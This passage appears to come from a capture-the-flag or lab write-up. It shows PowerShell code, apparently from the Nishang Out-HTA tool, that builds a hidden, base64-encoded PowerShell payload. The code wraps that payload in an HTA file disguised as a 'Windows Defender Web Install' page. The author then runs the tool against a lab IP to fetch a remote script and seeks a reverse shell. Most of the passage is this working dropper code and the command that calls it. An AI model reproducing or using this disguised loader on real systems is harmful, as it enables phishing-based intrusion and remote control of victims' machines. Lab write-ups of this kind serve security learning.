 ```  

        "[IO.Compression.CompressionMode]::Decompress)),"+

        " [Text.Encoding]::ASCII)).ReadToEnd();"

        #Generate Base64 encoded command to use with the powershell -encodedcommand paramter"
        $UnicodeEncoder = New-Object System.Text.UnicodeEncoding
        $EncScript = [Convert]::ToBase64String($UnicodeEncoder.GetBytes($command))
        $Payload = "powershell.exe -WindowStyle hidden -nologo -noprofile -e $EncScript"  
    }

    $HTA = @"
    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml">
    <head>
    <meta content="text/html; charset=utf-8" http-equiv="Content-Type" />
    <title>Windows Defender Web Install</title>

    <script language="VBScript">
    set oShell = CreateObject("Wscript.Shell")
    oShell.Run("$Payload"),0,true
    self.close()
    </script>
    <hta:application
       id="oHTA"
       applicationname="Windows Defender Web Install"
       application="yes"
    >
    </hta:application>
    </head>
    <div> 
    <object type="text/html" data="http://windows.microsoft.com/en-IN/windows7/products/features/windows-defender" width="100%" height="100%">
    </object></div>   
    <body>
    </body>
    </html>
"@

    Out-File -InputObject $HTA -FilePath $HTAFilepath
    Write-Output "HTA written to $HTAFilepath."
}

```

Finally the script ran and we are good to go
As you can see in the image i have used the wrong IP address so i was getting hit on the file but was not getting the reverse shell
```
Out-HTA -PayloadURL http://10.10.16.20/singh.ps1
```
![[Pasted image 20240509172043.png]]
![[Pasted image 20240510015653.png]]
